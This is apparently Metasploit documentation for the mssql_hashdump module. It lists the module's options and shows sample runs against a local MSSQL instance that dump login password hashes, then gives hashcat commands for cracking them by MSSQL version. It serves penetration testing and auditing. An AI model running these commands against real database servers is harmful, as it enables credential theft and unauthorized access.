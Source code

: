 ## Description

The `mssql_hashdump` module queries an MSSQL instance or session and returns hashed user:pass pairs. These pairs can be decripted via or `hashcat`.

## Available Options

```
msf auxiliary(scanner/mssql/mssql_hashdump) > options

Module options (auxiliary/scanner/mssql/mssql_hashdump):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]. Supported proxies: sapni, socks4, http, socks5, socks5
                                       h


   Used when connecting via an existing SESSION:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   no        The session to run this module on


   Used when making a new connection via RHOSTS:

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   DATABASE  MSSQL            no        The database to authenticate against
   PASSWORD                   no        The password for the specified username
   RHOSTS                     no        The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT     1433             no        The target port (TCP)
   THREADS   1                yes       The number of concurrent threads (max one per host)
   USERNAME  MSSQL            no        The username to authenticate as
```

## Scenarios

With a session:
```
msf auxiliary(scanner/mssql/mssql_hashdump) > sessions

Active sessions
===============

  Id  Name  Type   Information                Connection
  --  ----  ----   -----------                ----------
  1         mssql  MSSQL sa @ 127.0.0.1:1433  127.0.0.1:52307 -> 127.0.0.1:1433 (127.0.0.1)

msf auxiliary(scanner/mssql/mssql_hashdump) > run session=-1

[*] Using existing session 1
[*] Instance Name: "758549b9f69e"
[+] Saving mssql12 = sa:0x0200F433830BDBA809805FE53E59E7A1AACF9AC21241881F76B9B95EDC713FD01C8E692705409A5C0F8A46DDB1707A283BA9307D6B3C664BB9F7652758B70262C88F629DBC7E
[+] Saving mssql12 = ##MS_PolicyEventProcessingLogin##:0x02003F137BFF990AE7D0B89DA15EEDF4B962E200A9AAECE6AC7E4786176A08C4D278C0E9B203795F972CB508FD17827A755AF4284A9891F01C502EEBB5ECFABD7FA6CD3603E2
[+] Saving mssql12 = ##MS_PolicyTsqlExecutionLogin##:0x0200DA9B84641F740A6423EC34F1B354FB81D9DF53456A7A7A8CCB794B295896C0CD19718C2C9537D3A7E82C41350F1549E2E2B99D819345DCABF1855AF2F83FA6CDC3EF8F96
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/mssql/mssql_hashdump) > run RPORT=1433 RHOSTS=127.0.0.1 USERNAME=sa PASSWORD=yourStrong(!)Password

[*] 127.0.0.1:1433 - Instance Name: "758549b9f69e"
[+] 127.0.0.1:1433 - Saving mssql12 = sa:0x0200F433830BDBA809805FE53E59E7A1AACF9AC21241881F76B9B95EDC713FD01C8E692705409A5C0F8A46DDB1707A283BA9307D6B3C664BB9F7652758B70262C88F629DBC7E
[+] 127.0.0.1:1433 - Saving mssql12 = ##MS_PolicyEventProcessingLogin##:0x02003F137BFF990AE7D0B89DA15EEDF4B962E200A9AAECE6AC7E4786176A08C4D278C0E9B203795F972CB508FD17827A755AF4284A9891F01C502EEBB5ECFABD7FA6CD3603E2
[+] 127.0.0.1:1433 - Saving mssql12 = ##MS_PolicyTsqlExecutionLogin##:0x0200DA9B84641F740A6423EC34F1B354FB81D9DF53456A7A7A8CCB794B295896C0CD19718C2C9537D3A7E82C41350F1549E2E2B99D819345DCABF1855AF2F83FA6CDC3EF8F96
[*] 127.0.0.1:1433 - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Directly querying a machine:
```
msf auxiliary(scanner/mssql/mssql_hashdump) > run RPORT=1433 RHOSTS=127.0.0.1 USERNAME=sa PASSWORD=yourStrong(!)Password

[*] 127.0.0.1:1433 - Instance Name: "758549b9f69e"
[+] 127.0.0.1:1433 - Saving mssql12 = sa:0x0200F433830BDBA809805FE53E59E7A1AACF9AC21241881F76B9B95EDC713FD01C8E692705409A5C0F8A46DDB1707A283BA9307D6B3C664BB9F7652758B70262C88F629DBC7E
[+] 127.0.0.1:1433 - Saving mssql12 = ##MS_PolicyEventProcessingLogin##:0x02003F137BFF990AE7D0B89DA15EEDF4B962E200A9AAECE6AC7E4786176A08C4D278C0E9B203795F972CB508FD17827A755AF4284A9891F01C502EEBB5ECFABD7FA6CD3603E2
[+] 127.0.0.1:1433 - Saving mssql12 = ##MS_PolicyTsqlExecutionLogin##:0x0200DA9B84641F740A6423EC34F1B354FB81D9DF53456A7A7A8CCB794B295896C0CD19718C2C9537D3A7E82C41350F1549E2E2B99D819345DCABF1855AF2F83FA6CDC3EF8F96
[*] 127.0.0.1:1433 - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Different MSSQL Versions have different hash formats. For example:

MSSQL (2000): 0x01002702560500000000000000000000000000000000000000008db43dd9b1972a636ad0c7d4b8c515cb8ce46578
MSSQL (2005): 0x010018102152f8f28c8499d8ef263c53f8be369d799f931b2fbe
MSSQL (2012 and later): 0x02000102030434ea1b17802fd95ea6316bd61d2c94622ca3812793e8fb1672487b5c904a45a31b2ab4a78890d563d2fcf5663e46fe797d71550494be50cf4915d3f4d55ec375

To decrypt:
Save into a `passwords.txt` file
Run with hashcat, based on the MSSQL Version:
`hashcat --force -m 131 ./hashes.txt ./passwords.txt` (MSSQL 2000)
`hashcat --force -m 132 ./hashes.txt ./passwords.txt` (MSSQL 2005)
`hashcat --force -m 1731 ./hashes.txt ./passwords.txt` (MSSQL 2012 and later)
